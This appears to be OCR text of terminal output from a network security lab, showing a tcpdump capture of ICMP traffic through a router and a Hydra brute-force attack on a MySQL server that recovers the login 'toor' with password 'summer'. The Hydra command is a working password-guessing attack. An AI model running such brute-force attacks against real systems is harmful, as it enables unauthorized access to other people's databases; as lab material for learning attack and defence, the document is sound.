 ```code
[walt@companyrouter ~]$ sudo tcpdump -i any icmp -n
tcpdump: data link type LINUX_SLL2
dropped privs to tcpdump
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
15:03:27.864354 eth0  In  IP 192.168.100.166 > 172.30.0.15: ICMP echo request, id 53407, seq 1, length 64
15:03:27.864361 eth1  Out IP 192.168.100.166 > 172.30.0.15: ICMP echo request, id 53407, seq 1, length 64
15:03:27.864697 eth1  In  IP 172.30.0.15 > 192.168.100.166: ICMP echo reply, id 53407, seq 1, length 64
15:03:27.864708 eth0  Out IP 172.30.0.15 > 192.168.100.166: ICMP echo reply, id 53407, seq 1, length 64
15:03:28.868592 eth0  In  IP 192.168.100.166 > 172.30.0.15: ICMP echo request, id 53407, seq 2, length 64
15:03:28.868635 eth1  Out IP 192.168.100.166 > 172.30.0.15: ICMP echo request, id 53407, seq 2, length 64
15:03:28.868918 eth1  In  IP 172.30.0.15 > 192.168.100.166: ICMP echo reply, id 53407, seq 2, length 64
15:03:28.868924 eth0  Out IP 172.30.0.15 > 192.168.100.166: ICMP echo reply, id 53407, seq 2, length 64
15:03:29.892177 eth0  In  IP 192.168.100.166 > 172.30.0.15: ICMP echo request, id 53407, seq 3, length 64
15:03:29.892213 eth1  Out IP 192.168.100.166 > 172.30.0.15: ICMP echo request, id 53407, seq 3, length 64
15:03:29.892519 eth1  In  IP 172.30.0.15 > 192.168.100.166: ICMP echo reply, id 53407, seq 3, length 64
15:03:29.892522 eth0  Out IP 172.30.0.15 > 192.168.100.166: ICMP echo reply, id 53407, seq 3, length 64
15:03:30.915497 eth0  In  IP 192.168.100.166 > 172.30.0.15: ICMP echo request, id 53407, seq 4, length 64
15:03:30.915527 eth1  Out IP 192.168.100.166 > 172.30.0.15: ICMP echo request, id 53407, seq 4, length 64
15:03:30.915884 eth1  In  IP 172.30.0.15 > 192.168.100.166: ICMP echo reply, id 53407, seq 4, length 64
15:03:30.915890 eth0  Out IP 172.30.0.15 > 192.168.100.166: ICMP echo reply, id 53407, seq 4, length 64
```

```code
vagrant@red:~$ sudo hydra -s 3306 -l toor -P SecLists/Passwords/xato-net-10-million-passwords-100000.txt mysql://172.30.0.15
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-03 15:08:02
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100000 login tries (l:1/p:100000), ~25000 tries per task
[DATA] attacking mysql://172.30.0.15:3306/
[3306][mysql] host: 172.30.0.15   login: toor   password: summer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-03 15:08:13
```

